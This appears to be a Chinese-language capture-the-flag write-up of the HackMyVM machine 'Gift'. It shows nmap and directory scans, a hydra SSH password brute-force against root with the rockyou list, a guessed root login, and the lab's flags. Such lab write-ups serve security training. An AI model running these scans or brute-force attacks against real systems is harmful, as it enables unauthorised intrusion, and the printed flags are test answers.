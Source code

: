 ```yaml
---
title: Gift
author: hgbe02
date: 2024-03-16
categories: [Training platform,Hackmyvm]  
tags: [Hackmyvm,web]  
permalink: "/Hackmyvm/Gift.html"
---
```


# Gift

![image-20240316011250568](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403160135579.png)

扫描一下，正常，开淦！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403160135580.png" alt="image-20240316011345266" style="zoom:50%;" />

## 信息搜集

### 端口扫描

```bash
sudo nmap -p- -Pn -sS 10.161.61.135
```

刚做完`Azer`，有点一朝被蛇咬，十年怕井绳的感觉，哈哈哈。。

```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-15 13:18 EDT
Nmap scan report for 10.161.61.135
Host is up (0.00079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:F1:BD:13 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 8.79 seconds
```

### 目录扫描

```bash
dirb http://10.161.61.135
```

```apl
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Fri Mar 15 13:19:53 2024
URL_BASE: http://10.161.61.135/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://10.161.61.135/ ----
+ http://10.161.61.135/index.html (CODE:200|SIZE:57)
-----------------
END_TIME: Fri Mar 15 13:19:56 2024
DOWNLOADED: 4612 - FOUND: 1
```

结果并不令人满意，换一个试试。

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.161.61.135 -f -t 200
```

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.161.61.135
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## 获取flag

怪不得叫Gift，打开页面以后发现：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403160135582.png" alt="image-20240316012547831" style="zoom:50%;" />

查看源代码：

```apl
Dont Overthink. Really, Its simple.
	<!-- Trust me -->
```

查看敏感目录，一无所获。

无脑一波，尝试`rockyou`字典爆破ssh：

```bash
sudo hydra -l root -P /usr/share/wordlists/rockyou.txt -F ssh://10.161.61.135
```

爆破过程中手动连接一下ssh，随便尝试一些简单密码：

```apl
Trust me
Dont Overthink. Really, Its simple.
simple
```

结果进去了。。。。。还没爆破完呢。

```bash
┌──(kali㉿kali)-[~/temp]
└─$ ssh root@10.161.61.135  
The authenticity of host '10.161.61.135 (10.161.61.135)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.161.61.135' (ED25519) to the list of known hosts.
root@10.161.61.135's password: 
Permission denied, please try again.
root@10.161.61.135's password: 
Permission denied, please try again.
root@10.161.61.135's password: 
IM AN SSH SERVER
gift:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
gift:~# ls -la
total 20
drwx------    2 root     root          4096 Sep 24  2020 .
drwxr-xr-x   22 root     root          4096 Sep 18  2020 ..
-rw-------    1 root     root            26 Mar 15 17:33 .ash_history
----------    1 root     root            12 Sep 24  2020 root.txt
-rw-rw----    1 root     root            12 Sep 24  2020 user.txt
gift:~# cat root.txt
HMVtyr543FG
gift:~# cat user.txt
HMV665sXzDS
```

后来爆破结果出来了：

```bash
┌──(kali㉿kali)-[~]
└─$ sudo hydra -l root -P /usr/share/wordlists/rockyou.txt -F ssh://10.161.61.135
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-15 13:29:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.161.61.135:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 13 active
[22][ssh] host: 10.161.61.135   login: root   password: simple
[STATUS] attack finished for 10.161.61.135 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-15 13:32:09
```

记录一下吧，真好！
